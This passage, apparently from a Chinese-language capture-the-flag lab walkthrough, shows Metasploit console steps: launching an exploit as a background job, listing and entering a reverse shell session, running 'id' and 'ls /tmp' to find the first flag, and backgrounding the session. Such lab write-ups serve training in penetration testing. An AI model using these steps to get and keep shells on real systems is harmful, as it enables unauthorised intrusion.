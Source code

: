 ![show-again](img/show-again.png)

- 进行 getshell ,如果攻击成功，查看打开的 reverse shell ,进入会话后发现无命令行交互提示信息，尝试 Bash 指令，查看目录`/tmp`，发现得到了`flag1`，成功打下第一个靶标。此时，不要着急退出，将会话挂在后台继续执行。

```
# getshell
exploit -j

# 如果攻击成功，查看打开的 reverse shell
sessions -l

# 进入会话 1
sessions -i 1

# 无命令行交互提示信息，试一试 Bash 指令
id
# get flag-1
ls /tmp

# 通过 CTRL-Z 将当前会话放到后台继续执行
```
